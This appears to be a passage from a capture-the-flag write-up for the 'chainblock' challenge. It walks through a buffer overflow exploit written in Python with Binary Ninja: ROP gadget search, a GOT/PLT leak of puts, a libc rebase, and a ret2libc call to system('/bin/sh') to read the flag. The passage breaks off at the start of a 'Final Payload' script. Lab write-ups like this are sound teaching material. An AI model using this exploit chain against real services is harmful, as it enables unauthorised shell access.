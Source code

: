 Binja can search for gadgets, I did it in the LLIL:
```py
pop_rdi = bv.find_next_text(bv.start,"r15 = pop",graph_type=FunctionGraphType.LowLevelILFunctionGraph)+1
ret = pop_rdi + 1
```

Then make the socket connection:
```py
host,port = "pwn.be.ax",5000
io = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
io.connect((host,port))
```
And build the payload to get a leak:
```py
payload  = b""
payload += b"A"*abs(offset)
payload += p64(pop_rdi)
payload += p64(got['puts'])
payload += p64(plt['puts'])
payload += p64(main.start)

read_info()
io.send(payload+b"\n")
readline()
puts_leak = u64(io.recv(6))
print("Puts:", hex(puts_leak))
```

With a leak, we can load up libc and rebase and then find the string "/bin/sh":
```py
libc = BinaryViewType.get_view_of_file("./libc.so.6",update_analysis=False)
libc = libc.rebase(puts_leak - libc.symbols['puts'][0].address,force=True)
print("Libc Base:", hex(libc.start))

bin_sh = libc.find_next_data(libc.start,"/bin/sh")
```
 Lastly, send a ret2libc payload with an extra ret because of the `movaps` issue.
 ```py
 payload2  = b""
payload2 += b"A"*abs(offset)
payload2 += p64(ret)
payload2 += p64(pop_rdi)
payload2 += p64(bin_sh)
payload2 += p64(libc.symbols['system'][0].address)

io.send(payload2+b"\n")
io.send(b"cat flag.txt\n")
readline()
print(readline(b"}"))
```
# Final Payload
```py
from binaryninja import BinaryViewType, HighLevelILOperation, RegisterValueType, SymbolType, FunctionGraphType
import angr
import struct
import socket

binary_path = "./chainblock"
bv = BinaryViewType.get_view_of_file(binary_path)

gets_function = bv.get_functions_by_name("gets")[0]

# LOCATING THE VULN
```